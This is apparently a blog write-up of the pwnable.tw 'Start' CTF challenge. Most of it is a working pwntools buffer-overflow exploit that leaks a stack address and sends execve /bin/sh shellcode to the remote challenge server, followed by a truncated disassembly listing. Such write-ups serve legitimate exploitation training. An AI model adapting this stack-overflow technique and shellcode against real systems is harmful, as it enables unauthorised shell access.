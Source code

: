 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}


{% highlight intel assembly linenos %}
.text:08048060 push    esp
.text:08048061 push    offset _exit
.text:08048066 xor     eax, eax                        ; Logical Exclusive OR
.text:08048068 xor     ebx, ebx                        ; Logical Exclusive OR
.text:0804806A xor     ecx, ecx                        ; Logical Exclusive OR
.text:0804806C xor     edx, edx                        ; Logical Exclusive OR
.text:0804806E push    3A465443h
.text:08048073 push    20656874h
.text:08048078 push    20747261h
.text:0804807D push    74732073h
.text:08048082 push    2774654Ch
.text:08048087 mov     ecx, esp                        ; addr
.text:08048089 mov     dl, 14h                         ; len
.text:0804808B mov     bl, 1                           ; fd
.text:0804808D mov     al, 4
.text:0804808F int     80h                             ; LINUX - sys_write
.text:08048091 xor     ebx, ebx                        ; Logical Exclusive OR
.text:08048093 mov     dl, 3Ch
.text:08048095 mov     al, 3
.text:08048097 int     80h                             ; LINUX -

{% endhighlight %}







